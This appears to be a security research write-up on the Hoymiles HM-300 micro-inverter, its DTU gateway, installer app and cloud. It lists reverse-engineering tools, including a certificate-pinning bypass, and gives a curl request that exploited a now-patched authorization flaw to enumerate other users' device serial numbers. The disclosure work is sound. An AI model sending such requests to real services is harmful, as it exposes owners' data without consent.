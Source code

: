 ## TOE

* A **Hoymiles HM-300 micro-inverter** (300 W) w/ FW 01.00.15. In this report MI stands for MicroInverter.
* A **DTU Wlite** for cloud communication w/ FW 0.3.12. DTU stands for Data Transfer Unit.
* The **S-Miles Installer android app** V1.1.7. This app is needed for installation and can also be used for monitoring.
* Hoymiles provides a web-based cloud access at global.hoymiles.com. This is also part of the system under test. 

Basically, a microinverter transforms the electrical energy from the solar panels (DC) into grid compatible energy. 

The Hoymiles HM-300 has a proprietary RF communication protocol, the [nRF shockburst protocol](https://developer.nordicsemi.com/nRF_Connect_SDK/doc/latest/nrf/protocols/esb/index.html). It is connected to the DTU with this protocol. The DTU acts as a gateway between the microinverter and the internet i.e. the Hoymiles cloud. 

Here is a block diagram of the system:
![System](https://raw.githubusercontent.com/veganmosfet/Balcony_in_the_cloud/main/pictures/system.png)

## App and cloud 

Following tools have been used:
* android emulator 
* Frida and [this script](https://github.com/httptoolkit/frida-android-unpinning/blob/main/frida-script.js) to bypass certificate pinning
* [jadx](https://github.com/skylot/jadx) for app reverse engineering
* Chrome with developer tools
* curl, curl, curl and curl


### Get the serial numbers of (all) registered devices **(PATCHED)**
 
In `jadx` an overview of the APIs could be found in the package `com.hoymiles.http`, class `httphelper`. It was possible to get some information about any power plant (called `station`) registered in the system - even without being the owner. A power plant has a DTU and some inverters/MIs. They have a unique id which seems to be incremented by 10 for every new creation. Here is the API call (the token does not need to belong to the power plant related account, any valid token for a DIY account works):

```sh
curl http://neapi.hoymiles.com/pvm/api/0/dev/dtu/select_all -H "content-type: application/json" -X POST -H "Authorization: [Token here]" -d '{"id":[id here]}'
```
Answer:
```json
{"status":"0","message":"success","data":[{"dtu":{"id":,"sn":"4111XXXXXXXX","vc":""},"repeater_list":[{"id":0,"sn":"","dev_type":2,"inv_id":null,"inv_sn":null,"inv_type":null,"micros":[{"id":,"sn":"1121XXXXXXXX","vc":"","dev_type":3,"series":null,"port_array":[1]}]}]}]}
```
This information could be extracted for every registered power plant, including serial numbers of DTU and MIs. Moreover, by enumerating the ids, we could get the total number of registered power plants (something over 230.000 as of 09.2023).

